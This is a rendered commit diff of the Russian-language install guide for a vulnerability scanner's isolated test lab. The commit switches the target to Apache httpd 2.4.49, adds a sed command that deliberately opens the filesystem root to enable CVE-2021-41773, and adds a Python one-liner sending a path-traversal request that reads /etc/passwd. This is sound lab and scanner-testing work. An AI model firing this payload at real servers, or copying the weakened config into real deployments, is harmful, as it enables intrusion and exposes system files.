

Before and after one commit to azuresong-afk/scanner-way, a Markdown page: docs/INSTALL.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/docs/INSTALL.md
+++ b/docs/INSTALL.md
@@ -321,8 +321,12 @@ docker compose exec app scanner feeds sync-nvd --file /data/nvdcve-2.0-2024.json
 - Контейнер `app` дополнительно подключается к `lab-net`, чтобы видеть цель.
 - У `lab-web` **нет** опубликованных портов (`-p` не используется), поэтому он
   не конфликтует с портами хоста и не виден из вашей сети.
-- `vulhub/httpd:2.4.49` — Apache с известной уязвимостью CVE-2021-41773
-  (обход каталога). На ней удобно проверять привязку находок к БДУ.
+- Цель — официальный образ `httpd:2.4.49` (Apache с CVE-2021-41773, обход
+  каталога). Сама уязвимость эксплуатируется, только если в конфиге открыт
+  доступ к корню ФС (`Require all granted` в `<Directory />`), а в образе по
+  умолчанию стоит `denied`. Поэтому в шаге 2 конфиг меняется одной командой.
+  Так Nuclei подтверждает CVE реальным запросом, а сопоставление по версии
+  находит остальные уязвимости Apache 2.4.49 в БДУ.
 
 ### Шаг 1. Создать сеть стенда
 
@@ -339,7 +343,11 @@ this address space` значит, что подсеть занята: возьм
 ### Шаг 2. Запустить учебную цель
 
 ```bash
-docker run -d --name lab-web --network lab-net --ip 172.30.0.10 vulhub/httpd:2.4.49
+docker run -d --name lab-web --network lab-net --ip 172.30.0.10 httpd:2.4.49
+# открыть корень ФС в конфиге — условие эксплуатации CVE-2021-41773
+docker exec lab-web sed -i '/<Directory \/>/,/<\/Directory>/ s/Require all denied/Require all granted/' \
+    /usr/local/apache2/conf/httpd.conf
+docker restart lab-web
 docker ps --filter name=lab-web     # STATUS: Up
 ```
 
@@ -348,7 +356,7 @@ docker ps --filter name=lab-web     # STATUS: Up
 
 ### Шаг 3. Подключить сканер к сети стенда
 
-Команда выполняется из каталога сканера:
+Команды выполняются из каталога сканера:
 
 ```bash
 docker network connect lab-net "$(docker compose ps -q app)"
@@ -360,6 +368,15 @@ docker network connect lab-net "$(docker compose ps -q app)"
 docker compose exec app python -c \
   "import urllib.request; print(urllib.request.urlopen('http://172.30.0.10/').status)"
 # 200
+```
+
+Проверка, что цель действительно уязвима (ожидается `b'root:x:0:0...`;
+`403` значит, что правка конфига из шага 2 не применилась):
+
+```bash
+docker compose exec app python -c "import urllib.request as u, urllib.error as e
+try: print(u.urlopen('http://172.30.0.10/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd').read()[:40])
+except e.HTTPError as x: print(x.code)"
 ```
 
 Подключение к `lab-net` сохраняется при `docker compose restart`, но
````
Also changed, not shown: docs/TESTING.md (+13 -5 lines).
